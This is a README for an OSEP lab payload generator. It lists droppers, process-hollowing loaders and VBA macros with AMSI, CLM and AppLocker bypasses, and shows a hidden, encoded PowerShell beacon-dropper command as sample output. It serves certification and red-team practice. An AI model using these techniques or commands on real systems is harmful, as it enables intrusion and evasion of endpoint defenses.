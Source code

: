 # OSEP Payload Generation
Glorified YAML parser for payload definitions to generate payloads used throughout OSEP Challenge labs.
This tool was mainly designed to let me compile Sliver loaders and generate known-good macro VBS quickly. It takes in a yaml payload definition and implements Jinja2 templating in order to render variables within the templates, theres also a few helper functions exposed to Jinja to assist with this.
The goal was to automate as much annoying "manual labor" as possible while still printing the commands used etc.

It's pretty jank but hey it works :)

## Usag
```bash
python3 generate.py -h                                
usage: generate.py [-h] [-l LHOST] [-p PAYLOAD] [-L] [-v]

options:
  -h, --help            show this help message and exit
  -l, --lhost LHOST     The interface or IP to have payloads connect back to (Default: tun0)
  -p, --payload PAYLOAD
                        Payload to generate, accepts comma seperated payloads (Default: loader-compile)
  -L, --list            List all the possible payloads
  -v, --verbose         Verbose messages
```

By default we have a few payloads to use, feel free to add some :D

```bash
python3 generate.py -L
[*] Available Payloads:
Name                                               Description
------------------------------------------------------------------------------------------------------------------------------------------------------
apache-config                                      Apache2 Configuration for Sliver staging via HTTP on default kali
jsp-dropper                                        JSP Dropper - Executes powershell to dropand launch
ligolo                                             Convert the ligolo agent into shellcode with required arguments to connect back
loader-compile-apache-hollow                       Compiles the configured .net loader with apache2 staging (x64) via process hollowing
loader-compile-sqlclr                              Compiles the configured .net loader with apache2 staging (x64) for SQL CLR reflection, spawns via process hollowing
macro-clm-reflection                               VBA Macro for dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-clm-reflection                       VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (No Powershell)
macro-hta-vba-powershell-clm-reflection            VBA Macro for executing mshta, dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass)
macro-hta-vba-powershell-dropper                   VBA Macro for executing mshta and dropping a beacon (Applocker Bypass)
macro-hta-vba-powershell-reflection                VBA Macro for executing mshta and reflecting a beacon (Applocker Bypass) (AMSI Bypass)
macro-hta-vba-powershell                           VBA Macro & reverse shell for basic Powershell reverse shells via HTA
macro-http-request                                 VBA Macro for a simple HTTP request
macro-powershell-clm-reflection                    VBA Macro for Powershell dropping a CLM bypass and spawning a reflective beacon (Applocker & Installutil Bypass) (AMSI Bypass)
macro-powershell-dropper                           VBA Macro for Powershell dropping beacons
macro-powershell                                   VBA Macro & reverse shell for basic Powershell reverse shells
powershell-dropper                                 Powershell command for dropping beacons
powershell-enum-clm                                Powershell command for enumerating CLM
powershell-reflection                              Powershell command for reflective loading
```

You can generate payloads like
```bash
python3 generate.py -p powershell-dropper
[*][PAYLOAD] powershell-dropper - Powershell command for dropping beacons
---------------------------- Print
Powershell command for dropping a beacon and executing
powershell -ep bypass -Sta -Nop -Window Hidden -e aQB3AHIAIAAtA...
```

I found a lot of the macros to be useless except for `macro-powershell-dropper` and `macro-powershell-clm-reflection` but I guess its better to be prepared?
Most of them will generate alerts halting free loot.

## Installation
On kali, it **should** just work?
but if not venv to the rescue
```bash
python3 -m venv ./venv/
. ./venv/bin/activate
pip install -r requirements.txt
```
For compiling .NET framework on linux, [Mono mcs](https://www.mono-project.com/) is used.
```bash
sudo apt install mono-complete
```
For loading [ligolo-ng](https://github.com/nicocha30/ligolo-ng) TheWover's [Donut](https://github.com/TheWover/donut) is used.

## Payload definition
Theory behind the payloads is you have control over the variables you can put into templates or utilise some of the helper functions to generate dynamic stuff, Say you want a xor key to encrypt a `msfvenom` bin you can specify it to generate random keys. Note that this is procedural so treat it as FIFO as its line by line.
There are 3 main stages to generation, the first being setup commands which execute before anything else (helpful for cleanup of old scripts / executables). The second is printing commands which can be useful for copy and pasting into reports to say what you executed and the third being the generation itself where the final commands are executed.

Initially I made a `test.yml` payload but thought i'd just dump it here checkout `/payloads/` anyways.
```yaml
# Required keys
# commands || print
# commands && print
description: "Testing payload definitions"
# Variable definitions for jinja2 templating in the commands
variables:
  port: 8080
  outputfile: "/tmp/xxxx"
  encodeme: "test"
  nolinebreaks: >-
    there
    shouldnt
    be
    line
    breaks
  withlinebreaks: |-
    linebreaks
    please
    work
# Templates
templates:
  test:
    variables:
      xorkey: "{{ Helpers.random_key() }}"
    template: |-
      multiline
      templating
      {{LHOST}}
      {{xorkey}}
# To Print
print:
- "powershell -ep bypass {{ Encoder.base64(encodeme,Encoder.utf16le) }}"
- "ip address: {{ LHOST }}"
- |-
  cat << EOF > test
  {{Templates.get('test')}}
  EOF
# Commands to be executed prior to rendering templates / actual commands etc
setupCommands:
- "echo nice"
# Commands to execute
commands:
- "echo abcd>test"
```

## Shoutouts
* Loader* - [https://github.com/Logan-Elliott/HollowGhost](https://github.com/Logan-Elliott/HollowGhost)
* Macro AMSI Bypass via Patch - [https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Macros/WordMacroRunner.vbs)

